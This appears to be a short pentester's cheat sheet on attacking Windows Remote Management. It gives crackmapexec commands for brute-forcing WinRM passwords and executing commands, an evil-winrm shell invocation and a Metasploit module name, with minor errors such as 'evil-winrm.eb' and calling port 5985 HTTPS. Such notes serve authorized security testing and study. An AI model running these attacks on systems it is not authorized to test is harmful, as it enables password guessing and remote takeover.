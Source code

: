 ```yaml
---
category: Uncategorized
tags: []
---
```

- Windows Remote Management
- Happens over HTTPS
- PORT 5985 and 5986(HTTPS)

### Crackmapexec
```bash
crackmapexec <protocol> <ip>
```
- Bruteforce WinRM password using wordlist
	```bash
	crackmapexec winrm <ip> -u username -p /wordlist/password
	```
- Command execution after bruteforce
	```bash
	crackmapexec winrm <ip> -u <username> -p <password> -x "command"
	```

### Evil-winrm.rb
- Ruby script for getting a powershell prompt with winrm.
```bash
evil-winrm.eb -u <username> -p <password> -i <IP>
```

### Metasploit
```bash
exploit/windows/winrm/winrm_script_exec
```
